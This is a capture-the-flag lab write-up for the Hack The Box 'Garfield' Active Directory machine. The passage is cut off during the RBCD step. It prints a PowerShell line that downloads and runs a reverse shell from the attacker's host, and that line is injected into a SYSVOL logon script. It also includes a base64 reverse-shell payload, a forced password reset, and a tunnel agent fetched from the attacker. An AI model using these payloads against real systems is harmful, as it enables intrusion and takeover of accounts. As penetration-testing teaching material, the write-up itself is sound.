






## Table of Contents

- [Summary](#Summary)
- [Machine Information](#Machine-Information)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Time and Date Synchronization](#Time-and-Date-Synchronization)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
    - [Active Directory Enumeration](#Active-Directory-Enumeration)
- [Privilege Escalation to l.wilson](#Privilege-Escalation-to-lwilson)
    - [scriptPath Abuse](#scriptPath-Abuse)
- [Privilege Escalation to l.wilson_adm](#Privilege-Escalation-to-lwilson_adm)
    - [Access Control Entry (ACE) ForceChangePassword Abuse](#Access-Control-Entry-ACE-ForceChangePassword-Abuse)
- [user.txt](#usertxt)
- [Enumeration (l.wilson_adm)](#Enumeration-lwilson_adm)
- [Lateral Movement](#Lateral-Movement)
- [Privilege Escalation to System (RODC01)](#Privilege-Escalation-to-System-RODC01)
    - [Resource-Based Constrained Delegation (RBCD)](#Resource-Based-Constrained-Delegation-RBCD)
- [Privilege Escalation to System (DC01)](#Privilege-Escalation-to-System-DC01)
    - [LSA Dump](#LSA-Dump)
    - [Read-Only Domain Controller (RODC) Golden Ticket Forgery](#Read-Only-Domain-Controller-RODC-Golden-Ticket-Forgery)
- [root.txt](#roottxt)

## Summary

The box starts as an Assume Breach scenario with valid domain credentials for the `j.arbuckle` user in the `garfield.htb` `Active Directory` (`AD`) environment. Initial reconnaissance reveals a Domain Controller `DC01.garfield.htb` and a second machine `RODC01.garfield.htb` identified as a `Read-Only Domain Controller` (`RODC`) — a special type of Domain Controller that holds a read-only copy of the `Active Directory` database and only caches credentials for accounts explicitly permitted through its `Allowed RODC Password Replication Group`.

`BloodHound` enumeration reveals that `j.arbuckle` has write permissions over several user objects in the domain, including `l.wilson`. The `SYSVOL` share contains a `scripts` directory where a `printerDetect.bat` file is stored. Since `j.arbuckle` can modify the `scriptPath` attribute of the `l.wilson` user object, this attribute is abused to point to the existing script and a reverse shell payload is injected into it. This technique is known as `Script Path Abuse` — when a user logs in, the Domain Controller executes any script referenced in the `scriptPath` attribute from `SYSVOL`, which in this case delivers a shell as `l.wilson`.

`BloodHound` also reveals that `l.wilson` holds a `ForceChangePassword` `Access Control Entry` (`ACE`) over `l.wilson_adm`. This right is abused to reset the administrative account's password, providing access as `l.wilson_adm` and retrieval of `user.txt`.

With `l.wilson_adm` access, `Lateral Movement` to the internal network `192.168.100.0/24` is achieved using `Ligolo-ng`, giving access to `RODC01`. `Resource-Based Constrained Delegation` (`RBCD`) is then used to obtain a service ticket impersonating `Administrator` on `RODC01`, granting `SYSTEM` access on the `Read-Only Domain Controller`.

From `RODC01`, an `LSA` dump via `Meterpreter` and `Mimikatz` retrieves the `NTLM` hash of the `krbtgt_8245` account — the dedicated `krbtgt` account for the `RODC`. Since `l.wilson_adm` has control over `RODC01`'s `msDS-RevealOnDemandGroup` and `msDS-NeverRevealGroup` attributes, `Administrator` is added to the allowed replication group and the deny list is cleared. A `Golden Ticket` is then forged using the `krbtgt_8245` hash and the `RODC` key list number `8245`, which is subsequently upgraded to a legitimate `krbtgt` ticket through the `Key List` mechanism, granting `Domain Admin` access on `DC01` and retrieval of `root.txt`.

## Machine Information

As is common in real life pentests, you will start the Garfield box with credentials for the following account `j.arbuckle / Th1sD4mnC4t!@1978`.

## Reconnaissance

### Port Scanning

We began with our initial port scan using `Nmap` running default scripts (`-sC`) and service version detection (`-sV`). The scan revealed a typical `Active Directory` environment with the domain `garfield.htb` and Domain Controller `DC01.garfield.htb`. Notably, the clock skew of eight hours indicated `Kerberos` time synchronization would be required before attempting any `Kerberos`-based attacks.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.22.194
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-04 21:05 +0200
Nmap scan report for 10.129.22.194
Host is up (0.026s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-05 03:05:59Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: garfield.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: garfield.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.garfield.htb
| Not valid before: 2026-02-13T01:10:36
|_Not valid after:  2026-08-15T01:10:36
| rdp-ntlm-info: 
|   Target_Name: GARFIELD
|   NetBIOS_Domain_Name: GARFIELD
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: garfield.htb
|   DNS_Computer_Name: DC01.garfield.htb
|   DNS_Tree_Name: garfield.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2026-04-05T03:06:16+00:00
|_ssl-date: 2026-04-05T03:06:58+00:00; +8h00m03s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-04-05T03:06:20
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 8h00m02s, deviation: 0s, median: 8h00m02s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.64 seconds
```

We added both `garfield.htb` and `DC01.garfield.htb` to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.22.194   garfield.htb
10.129.22.194   DC01.garfield.htb
```

### Time and Date Synchronization

Given the eight-hour clock skew reported by `Nmap`, `Kerberos` authentication would fail without first synchronizing our local clock with the target. We stopped any running time synchronization services and used `net time` to sync against the Domain Controller.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service.
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo systemctl stop systemd-timesyncd
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo net time set -S 10.129.22.194
```

### Enumeration of Port 445/TCP

Using the provided credentials we authenticated to `SMB` and enumerated available shares. The `NETLOGON` and `SYSVOL` shares were accessible as expected for a domain user.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/files]
└─$ netexec smb 10.129.22.194 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' --shares
SMB         10.129.22.194   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:garfield.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.22.194   445    DC01             [+] garfield.htb\j.arbuckle:Th1sD4mnC4t!@1978 
SMB         10.129.22.194   445    DC01             [*] Enumerated shares
SMB         10.129.22.194   445    DC01             Share           Permissions     Remark
SMB         10.129.22.194   445    DC01             -----           -----------     ------
SMB         10.129.22.194   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.22.194   445    DC01             C$                              Default share
SMB         10.129.22.194   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.22.194   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.22.194   445    DC01             SYSVOL          READ            Logon server share
```

With a valid foothold we collected `BloodHound` data using `netexec` to map the full `Active Directory` environment.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/files]
└─$ netexec ldap 10.129.22.194 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' --bloodhound --dns-tcp --dns-server 10.129.22.194 -c all
LDAP        10.129.22.194   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:garfield.htb) (signing:None) (channel binding:No TLS cert) 
LDAP        10.129.22.194   389    DC01             [+] garfield.htb\j.arbuckle:Th1sD4mnC4t!@1978 
LDAP        10.129.22.194   389    DC01             Resolved collection methods: localadmin, psremote, group, objectprops, trusts, container, session, dcom, acl, rdp
LDAP        10.129.22.194   389    DC01             Done in 0M 16S
LDAP        10.129.22.194   389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.129.22.194_2026-04-04_210721_bloodhound.zip
```

### Active Directory Enumeration

Reviewing the collected data in `BloodHound` showed that `j.arbuckle` was a standard domain user with no particularly privileged group memberships.



The domain user list revealed additional accounts including `l.wilson` and `l.wilson_adm`, suggesting an administrator account pattern worth investigating.



The Domain Controllers view confirmed the presence of two controllers: `DC01` acting as the primary Domain Controller, and `RODC01` identified as a `Read-Only Domain Controller` (`RODC`). A `Read-Only Domain Controller` is a special type of Domain Controller introduced in Windows Server 2008 that holds a read-only replica of the `Active Directory` database. Unlike a standard Domain Controller it does not store credentials for most domain users by default — only accounts whose passwords are explicitly permitted via the `Allowed RODC Password Replication Group` are cached locally. RODCs are typically deployed in branch offices or less physically secure environments where the risk of hardware theft would otherwise expose domain credentials. Their position in the environment makes them an interesting target, since compromising an `RODC` and its `krbtgt` account can enable specific `Golden Ticket` attacks against the full domain.



Reviewing the inbound object control for `RODC01` in `BloodHound` showed that `l.wilson_adm` had significant control rights over the `RODC01$` computer object, which would be relevant for a later escalation path.

- [https://www.thehacker.recipes/ad/movement/builtins/rodc](https://www.thehacker.recipes/ad/movement/builtins/rodc)
- [https://specterops.io/blog/2023/01/25/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc/](https://specterops.io/blog/2023/01/25/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc/)



Checking the outbound object control for `l.wilson` revealed a `ForceChangePassword` `Access Control Entry` (`ACE`) over `l.wilson_adm`, making it an immediate stepping stone once access as `l.wilson` was obtained.



## Privilege Escalation to l.wilson

### scriptPath Abuse

In `Active Directory` each user object has a `scriptPath` attribute that can reference a logon script stored on `SYSVOL`. When a user authenticates to the domain, the Domain Controller resolves the `scriptPath` value and automatically executes the referenced script from the `NETLOGON` or `SYSVOL` share. If an attacker controls the `scriptPath` attribute of a user object and also has write access to the `SYSVOL` scripts directory, this mechanism can be abused to execute arbitrary code the next time the target user logs in — without requiring any interaction beyond a normal login event.

Browsing the `SYSVOL` share revealed a `scripts` directory containing an existing `printerDetect.bat` file.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/files]
└─$ smbclient '\\10.129.22.194\SYSVOL\' -U 'j.arbuckle'
Password for [WORKGROUP\j.arbuckle]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Aug 13 13:04:43 2025
  ..                                  D        0  Wed Aug 13 13:04:43 2025
  garfield.htb                       Dr        0  Wed Aug 13 13:04:43 2025

                9250815 blocks of size 4096. 976406 blocks available
```

```shell
smb: \> cd garfield.htb\
```

```shell
smb: \garfield.htb\> dir
  .                                   D        0  Wed Aug 13 13:11:05 2025
  ..                                  D        0  Wed Aug 13 13:11:05 2025
  DfsrPrivate                      DHSr        0  Wed Aug 13 13:11:05 2025
  Policies                            D        0  Wed Aug 13 13:04:48 2025
  scripts                             D        0  Tue Jan 27 23:13:47 2026

                9250815 blocks of size 4096. 976406 blocks available
```

```shell
smb: \garfield.htb\> cd scripts\
```

```shell
smb: \garfield.htb\scripts\> dir
  .                                   D        0  Tue Jan 27 23:13:47 2026
  ..                                  D        0  Tue Jan 27 23:13:47 2026
  printerDetect.bat                   A      217  Sat Sep 13 00:20:29 2025

                9250815 blocks of size 4096. 976406 blocks available
```

We downloaded the script to inspect its contents.

```shell
smb: \garfield.htb\scripts\> get printerDetect.bat 
getting file \garfield.htb\scripts\printerDetect.bat of size 217 as printerDetect.bat (2.1 KiloBytes/sec) (average 2.1 KiloBytes/sec)
```

The script was a benign printer enumeration utility.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/files]
└─$ cat printerDetect.bat 
@echo off
echo Detecting installed printers...
echo ==============================

wmic printer get Name,DeviceID,PortName,DriverName,Shared,Status /format:table

echo.
echo Printer detection completed.
pause
```

Using `bloodyAD` we confirmed that `j.arbuckle` had write access to several user objects, including `l.wilson`. This made the `scriptPath Abuse` vector viable.

```shell
┌──(kali㉿kali)-[~]
└─$ bloodyAD --host 10.129.22.194 -u j.arbuckle -p 'Th1sD4mnC4t!@1978' get writable --otype USER 

distinguishedName: CN=Guest,CN=Users,DC=garfield,DC=htb
permission: WRITE

distinguishedName: CN=krbtgt_8245,CN=Users,DC=garfield,DC=htb
permission: WRITE

distinguishedName: CN=Jon Arbuckle,CN=Users,DC=garfield,DC=htb
permission: WRITE

distinguishedName: CN=Liz Wilson,CN=Users,DC=garfield,DC=htb
permission: WRITE

distinguishedName: CN=Liz Wilson ADM,CN=Users,DC=garfield,DC=htb
permission: WRITE
```

Next we appended a `PowerShell` reverse shell one-liner to the local copy of `printerDetect.bat`. The injected line downloads and executes `shell.ps1` from our web server.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/files]
└─$ cat printerDetect.bat 
@echo off
echo Detecting installed printers...
echo ==============================
wmic printer get Name,DeviceID,PortName,DriverName,Shared,Status /format:table
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.10/shell.ps1')"
echo.
echo Printer detection completed.
pause
```

The `shell.ps1` payload contained a `base64-encoded PowerShell reverse shell` connecting back to our listener.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/serve]
└─$ cat shell.ps1 
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMQAwACIALAA5ADAAMAAxACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

We hosted `shell.ps1` on a `Python web server` and uploaded the modified `printerDetect.bat` back to `SYSVOL`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
smb: \garfield.htb\scripts\> del printerDetect.bat 
```

```shell
smb: \garfield.htb\scripts\> put printerDetect.bat 
putting file printerDetect.bat as \garfield.htb\scripts\printerDetect.bat (3.8 kB/s) (average 3.0 kB/s)
```

With write access to `l.wilson`'s object we set the `scriptPath` attribute to point to `printerDetect.bat`, ensuring the script would be executed at `l.wilson`'s next login.

```shell
┌──(kali㉿kali)-[~]
└─$ bloodyAD --host 10.129.22.194 -u j.arbuckle -p 'Th1sD4mnC4t!@1978' set object "CN=Liz Wilson,CN=Users,DC=garfield,DC=htb" scriptPath -v printerDetect.bat
[+] CN=Liz Wilson,CN=Users,DC=garfield,DC=htb's scriptPath has been updated
```

When `l.wilson` next authenticated to the domain the logon script was executed, the payload fetched and ran, and a reverse shell connected back to our listener.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.10] from (UNKNOWN) [10.129.22.194] 53444

PS C:\Windows\system32>
```

## Privilege Escalation to l.wilson_adm

### Access Control Entry (ACE) ForceChangePassword Abuse

`BloodHound` had previously revealed that `l.wilson` held a `ForceChangePassword` `Access Control Entry` (`ACE`) over `l.wilson_adm`. This `ACE` grants the right to reset another user's password without knowing the current one — a common misconfiguration in `Active Directory` environments where administrative accounts are paired with a standard user account but the delegation of rights was configured too broadly. With an active shell as `l.wilson`, we abused this right by binding directly to the `l.wilson_adm` object via `ADSI` and calling `SetPassword`.

```cmd
PS C:\Windows\system32> $user = [adsi]"LDAP://CN=Liz Wilson ADM,CN=Users,DC=garfield,DC=htb"
```

```cmd
PS C:\Windows\system32> $user.SetPassword('NewP@ss123!')
```

```cmd
PS C:\Windows\system32> $user.SetInfo()
```

With the password reset we authenticated directly to `DC01` as `l.wilson_adm` over `WinRM`.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i dc01.garfield.htb -u 'l.wilson_adm' -p 'NewP@ss123!'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents>
```

## user.txt

```cmd
*Evil-WinRM* PS C:\Users\l.wilson_adm\Desktop> type user.txt
3092890df7ca6146bfb1f4d85386fede
```

## Enumeration (l.wilson_adm)

Reviewing the `Outbound Object Control` in `BloodHound` for `l.wilson_adm` confirmed that this account had significant control rights over the `RODC01$` computer object, including the ability to modify its `msDS-RevealOnDemandGroup` and `msDS-NeverRevealGroup` attributes. These attributes control which accounts' passwords the `RODC` is permitted to cache, and being able to modify them is a critical prerequisite for the `RODC Golden Ticket` attack path later in the chain.



## Lateral Movement

To reach `RODC01` on the internal `192.168.100.0/24` subnet we set up a `Ligolo-ng` tunnel. First the proxy was started on our attacker machine.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/serve]
└─$ sudo ./proxy -selfcert
[sudo] password for kali: 
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] daemon configuration file not found. Creating a new one... 
? Enable Ligolo-ng WebUI? No
WARN[0002] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
ERRO[0002] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
INFO[0002] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _                                                                                                                                                                                                                                                                                                                                                                                         
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/                                                                                                                                                                                                                                                                                                                                                                                         
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /                                                                                                                                                                                                                                                                                                                                                                                          
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /                                                                                                                                                                                                                                                                                                                                                                                           
        /____/                          /____/                                                                                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                                                                                                                                          
  Made in France ♥            by @Nicocha30!                                                                                                                                                                                                                                                                                                                                                                                              
  Version: 0.8.3                                                                                                                                                                                                                                                                                                                                                                                                                          
                                                                                                                                                                                                                                                                                                                                                                                                                                          
ligolo-ng » 
```

A `ligolo` network interface was created and a route for the `192.168.100.0/24` subnet was added to direct traffic through the tunnel.

```shell
ligolo-ng » ifcreate --name ligolo
INFO[0018] Creating a new ligolo interface...           
INFO[0018] Interface created!
```

```shell
ligolo-ng » route_add --name ligolo --route 192.168.100.0/24
INFO[0046] Route created.
```

The `Ligolo-ng` agent was uploaded to `DC01` and executed from the `l.wilson_adm` session, establishing a connection back to the proxy.

```cmd
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> iwr 10.10.16.10/agent.exe -o agent.exe
```

```cmd
*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> .\agent.exe -connect 10.10.16.10:11601 -ignore-cert
agent.exe : time="2026-04-04T22:18:52-07:00" level=warning msg="warning, certificate validation disabled"
    + CategoryInfo          : NotSpecified: (time="2026-04-0...ation disabled":String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
time="2026-04-04T22:18:52-07:00" level=info msg="Connection established" addr="10.10.16.10:11601"
```

The agent checked in and the session was started, bringing the internal subnet into reach.

```shell
ligolo-ng » INFO[0156] Agent joined.                                 id=00155d0bdd00 name="GARFIELD\\l.wilson_adm@DC01" remote="10.129.22.194:52251"
```

```shell
ligolo-ng » session
? Specify a session : 1 - GARFIELD\l.wilson_adm@DC01 - 10.129.22.194:52251 - 00155d0bdd00
[Agent : GARFIELD\l.wilson_adm@DC01] »
```

```shell
[Agent : GARFIELD\l.wilson_adm@DC01] » start
INFO[0166] Starting tunnel to GARFIELD\l.wilson_adm@DC01 (00155d0bdd00)
```

## Privilege Escalation to System (RODC01)

### Resource-Based Constrained Delegation (RBCD)

`Resource-Based Constrained Delegation` (`RBCD`) is a `Kerberos` delegation mechanism introduced in Windows Server 2012 that allows a resource (such as a computer) to specify which accounts are permitted to delegate to it by setting the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the resource's computer object. Unlike traditional constrained delegation which is configured on the delegating account, `RBCD` is configured on the target resource itself. If an attacker controls an account with write access over a computer object's `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, they can set any controlled machine account as a trusted delegator and then use `S4U2Self` and `S4U2Proxy` to obtain a service ticket impersonating a privileged user — effectively gaining `SYSTEM` access on the target.

With `RODC01` now reachable through the `Ligolo-ng` tunnel we first added `RODC01.garfield.htb` to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.22.194   garfield.htb
10.129.22.194   DC01.garfield.htb
192.168.100.2   RODC01.garfield.htb
```

A new machine account `FOOBAR$` was created in the domain using `l.wilson_adm` credentials. This machine account would be used as the controlled delegator in the `RBCD` attack.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Garfield/files]
